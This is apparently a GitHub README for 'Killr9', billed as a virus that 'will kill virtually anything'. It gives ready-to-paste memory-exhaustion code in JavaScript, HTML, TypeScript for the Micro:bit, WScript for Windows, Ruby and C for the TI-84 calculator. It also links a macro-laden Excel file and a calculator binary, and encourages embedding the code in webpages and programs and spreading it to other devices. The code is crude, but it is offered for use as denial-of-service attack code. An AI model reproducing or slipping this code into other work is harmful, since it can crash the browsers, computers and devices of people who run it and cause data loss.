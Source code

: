 # Killr9
A virus that will kill virtually anything! We have it available in HTML, JavaScript, Python, MakeCode, TypeScript, Godot, and more!

## Killing Webpages - Inline Script
Paste the JS code inside of a script tag.
```html
<script>
    function ohSnap() {
        var corruptable=[]
        for(var i=0;true;i++) {
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
        }
    }
    
    setInterval(ohSnap) // required to bypass a fix in newer Chromium versions
</script>
```


## Killing a Windows96 instance(WRT Bin)
Create a WRT bin, like this:
```js
//!wrt
function ohSnap() {
    var corruptable=[]
    for(var i=0;true;i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

setInterval(ohSnap);
```

Executing any WRT binary on Windows 96 with this code will cause the tab to lag and crash.

## Killing the BBC Micro:bit (MakeCode Editor)
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; true; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

Flashing this code onto your Micro:bit will cause the RAM to become completely full. This will also cause in error when being ran in the simulator, and in rare instances may completely crash it.

## Killing Windows 98 - Windows 11 (WScript)
Create a new `.js` file with the following contents:
```js
function ohSnap() {
    var corruptable=[]
    if(!corruptable.push) {
        corruptable.push=function(e){
            corruptable[corruptable.length]=e;
            corruptable.length++
        }
    }
    for(var i=0;true;i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

ohSnap()
```

Running this script with WSCRIPT.EXE will not cause immediate system death, but will fill up the RAM and cause the system to lag. Eventually, a force reboot will be required.
In some cases, running this on old versions of Windows may cause the system to not be able to boot up again.

## Embedding in Ruby Programs
Create a new `.rb` file with the following contents:
```ruby
def oh_snap
  corruptable = []
  (0..9999999*999999999999999999999).each do |i|
    11.times { corruptable << i }
  end
end

oh_snap
```

## Killing Microsoft Excel
Download [MSExcel.xlsm](/src/MSExcel.xlsm) and open it in Excel. The macros will do something to it. It may not even get past the splash page.

## Killing the TI-84 Plus CE Calculator
Download [KILRNINE.8xp](/src/KILRNINE.8xp) and use [TI Connect CE](https://education.ti.com/en/software/details/en/CA9C74CAD02440A69FDC7189D7E1B6C2/swticonnectcesoftware) to transfer it to your calculator.<br/>
If you do not have TI Connect CE, you can download v6.0.1 directly using these links: [Windows (EXE)](https://education.ti.com/download/en/ed-tech/CA9C74CAD02440A69FDC7189D7E1B6C2/EB5C99AD6B2C42E7BEC073117B0FDC46/TIConnectCE-6.0.1.344.exe) - [MacOS (DMG)](https://education.ti.com/download/en/ed-tech/CA9C74CAD02440A69FDC7189D7E1B6C2/D96C79959E494383BDCA94D0478FFF05/TIConnectCE-6.0.1.344.dmg)<br/>
These links are safe and link to official downloads hosted on Texas Instruments' website. If you have Linux, or cannot use TI Connect CE, you can download [TILP](https://sourceforge.net/projects/tilp/) from SourceForge - it works on Windows, MacOS, Linux, BSD and ChromeOS. Running this program will crash your TI-84 Plus CE, so make sure importent data is in the Archive memory before you run this.<br/>
You can also transfer this onto other TI-84 Plus CE units through the `Link` feature.

Here is the source if you want to compile it yourself:
```cpp
////////////////////////////////////////
// { KILRNINE } { VERSION }
// Author: themirrazz
// License:
// Description: Killr9
////////////////////////////////////////

#include <stdbool.h>
#include <stddef.h>
#include <stdint.h>
#include <tice.h>

#include <math.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


void ohSnap() {
    int corruptable[4999999];
    int i = 0;
    while (true) {
        corruptable[i] = (i*i);
        i++;
    }
}

int main() {
    ohSnap();
    return 0;
}
```
